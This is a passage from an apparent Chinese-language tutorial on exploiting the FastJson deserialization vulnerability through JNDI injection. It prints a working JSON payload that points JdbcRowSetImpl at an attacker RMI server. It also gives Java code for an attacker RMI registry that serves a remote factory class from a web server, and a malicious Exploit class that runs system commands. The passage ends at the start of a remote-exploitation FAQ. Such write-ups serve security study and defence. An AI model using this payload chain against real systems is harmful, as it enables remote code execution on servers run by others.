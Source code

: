 connect()会调用InitialContext.lookup(dataSourceName)，这里的参数dataSourceName是在setter方法setDataSourceName(String name)中设置的。所以在FastJson反序列化漏洞过程中，我们可以控制dataSourceName的值，也就是说满足了JNDI注入利用的条件。利用Payload如下：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://hacker_server/xxx","autoCommit":true}
```

攻击者的服务端需要启动一个RMI Registry，并且绑定一个Reference远程对象，同时设置一个恶意的factory类。

```java
    Registry registry = LocateRegistry.createRegistry(1099);
    String remote_class_server = "http://192.168.1.200:8080/";
    Reference reference = new Reference("Exploit", "Exploit", remote_class_server);
    //reference的factory class参数指向了一个外部Web服务的地址
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
    registry.bind("xxx", referenceWrapper);
```

同时启动一个WebServer提供Exploit.class下载。恶意代码可以放在构造方法中，也可以放在getObjectInstance()方法中：

```java
public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        exec("xterm");
        return null;
    }

    public static String exec(String cmd) {
        try {
            String sb = "";
            BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
            BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
            String lineStr;
            while ((lineStr = inBr.readLine()) != null)
                sb += lineStr + "\n";
            inBr.close();
            in.close();
            return sb;
        } catch (Exception e) {
            return "";
        }
    }
}
```

## 3. 远程利用FAQ

网上很多PoC都是在本地测试的，然而在远程利用过程中可能会遇到一些坑，直接会导致利用失败，比如可能会遇到Timeout的错误。

### 3.1 为什么远程利用会出现Timeout？
